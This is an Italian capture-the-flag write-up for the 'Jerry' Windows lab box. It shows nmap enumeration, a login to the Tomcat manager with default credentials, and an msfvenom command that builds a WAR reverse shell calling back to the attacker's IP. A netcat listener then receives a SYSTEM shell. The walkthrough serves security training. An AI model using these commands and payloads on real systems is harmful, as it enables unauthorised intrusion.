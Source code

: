 ```yaml
---
title: "Jerry Walkthrough"
description: "Jerry è una macchina Windows di difficoltà easy che dimostra come sfruttare Apache Tomcat, ottenendo una shell di NT Authority \ SYSTEM e compromettendo completamente il target."
author: dua2z3rr
date: 2025-08-14 1:00:00
categories: [Walkthrough]
tags: ["Area di Interesse: Common Services", "Area di Interesse: Security Tools", "Area di Interesse: Enterprise Network", "Area di Interesse: Vulnerability Assessment", "Vulnerabilità: Remote Code Execution", "Vulnerabilità: Arbitrary File Upload", "Vulnerabilità: Default Credentials", "Codice: Java"]
image: /assets/img/jerry/jerry-resized.png"
---
```


## Enumerazione Esterna

### Nmap

Cominciamo con un nmap.

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.95 -vv -p-
<SNIP>
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

<SNIP>

┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.95 -sC -sV -vv -p 8080
<SNIP>
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
```

Possiamo vedere che sulla porta 8080 è prsente un **Apache Tomcat**

### HTTP

Aggiungiomo l'indirizzo ip al file `/etc/hosts`.

```Shell
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

10.10.10.95 jerry.htb
```

Visitiamo la porta 8080.

![Desktop View](/assets/img/jerry/jerry-sito.png)

Ci troviamo nella pagina iniziale subito dopo la installazione di apache tomcat. Esploriamola.

Nella documentazione del manager, troviamo questo:
![Desktop View](/assets/img/jerry/web-manager-jerry.png)

Proviamo ad accedere a `/manager/html`.

![Desktop View](/assets/img/jerry/jerry-login.png)

Fin ad ora, Apache tomcat sembra non abbia ricevuto modifiche. Proviamo ad accedere con le credeniali di default.

Ecco le credenziali di default per Tomcat 7.0.88: <https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown>

Si riesce ad accedere tramite alle credenziali **tomcat:s3cret** e ci ritroviamo alla pagina di tomcat Web Application Manager.

![Desktop View](/assets/img/jerry/jerry-web-application-manager.png)

Se le credenziali di default non avessero funzionato, avremmo dovuto provare ad accedere attraverso un brute-force attack con tool come **hydra** o **medusa**.

## Exploitation

Ora dobbiamo cercare un modo per ottenere una shell sulla macchna che hosta tomcat.

Possiamo fare il deploy di WAR sul sito.

![Desktop View](/assets/img/jerry/jerry-war-deploy.png)

Creiamo un fie WAR per ottenere una reverse shell.

```shell
┌─[dua2z3rr@parrot]─[~/Boxes/jerry]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=9001 -f war -o rshell.war
Payload size: 1092 bytes
Final size of war file: 1092 bytes
Saved as: rshell.war
```

Procediamo col deploy del file WAR e otteniamo una reverse shell.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.10.95 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

Troviamo le flag e terminiamo la box.

## Conclusione

Jerry rappresenta un classico esempio di come configurazioni insicure su servizi comuni possano portare a compromissioni totali del sistema. La facilità di exploitation sottolinea l'importanza degli hardening baseline.

